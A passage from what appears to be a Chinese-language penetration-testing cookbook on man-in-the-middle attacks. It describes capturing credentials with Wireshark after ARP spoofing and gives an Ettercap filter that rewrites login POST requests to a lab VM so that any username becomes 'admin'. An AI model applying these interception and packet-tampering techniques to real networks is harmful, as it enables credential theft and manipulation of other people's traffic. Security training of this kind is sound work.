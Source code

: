     通过捕获客户端和服务端之间的流量，攻击者能够提取和利用所有类型的敏感信息，例如用户名、密码、会话 Cookie、账户号码、信用卡号码、私人邮件，以及其它。
    
### 工作原理

Wireshark 监听每个我们选择监听的接口上的封包，并在它的界面中显示。我们可以选择监听多个接口。

当我们首先启动嗅探的时候，我们了解了 ARP 欺骗如何工作。它发送大量 ARP 封包给客户端和服务端，以便防止它们的地址解析表（ARP 表）从正当的主机获得正确的值。

最后，当我们向服务器发送请求时，我们看到了 Wireshark 如何捕获所有包含在请求中的信息，包含协议、来源和目的地 IP。更重要的是，它包含了由客户端发送的数据，其中包含管理员密码。

### 另见

研究 Wireshark 数据有一些无聊，所以了解如何在捕获封包时使用显示过滤器非常重要。你可以访问下列站点来了解更多信息。

+ https://www.wireshark.org/docs/wsug_html_chunked/ChWorkDisplayFilterSection.html
+ https://wiki.wireshark.org/DisplayFilters

使用 Wireshark，你可以通过捕获过滤器来选择捕获哪种数据。这是非常实用的特性，尤其是执行 MITM攻击时生成大量流量的时候。你可以从下列站点中阅读更多信息。

+ https://www.wireshark.org/docs/wsug_html_chunked/ChCapCaptureFilterSection.html
+ https://wiki.wireshark.org/CaptureFilters

## 8.3 修改服务端和客户端之间的数据

在执行 MITM 攻击时，我们不仅仅能够监听在受害者系统之间发送的任何数据，也能够修改请求和响应，因而按照我们的意图调整它们的行为。

这个秘籍中，我们会使用 Ettercap 过滤器来检测封包是否包含我们感兴趣的信息，并触发改变后的操作。

### 准备

在开始之前我们需要让 MITM 工作。

### 操作步骤

1.  我们的第一步是创建过滤器文件。将下列代码保存到文本文件中（我们命名为`regex-replace-filter.filter`）:

    ```
    # If the packet goes to vulnerable_vm on TCP port 80 (HTTP) 
    if (ip.dst == '192.168.56.102'&& tcp.dst == 80) {
        # if the packet's data contains a login page    
        if (search(DATA.data, "POST")){        
            msg("POST request");        
            if (search(DATA.data, "login.php") ){
                msg("Call to login page");            
                # Will change content's length to prevent server from failing            
                pcre_regex(DATA.data, "Content-Length\:\ [0-9]*","Content-Length: 41");            
                msg("Content Length modified");            
                # will replace any username by "admin" using a regular expression            
                if (pcre_regex(DATA.data, "username=[a-zAZ]*&","username=admin&"))    {
                    msg("DATA modified\n");              
                }            
                msg("Filter Ran.\n");        
            }    
        } 
    }
    ```
    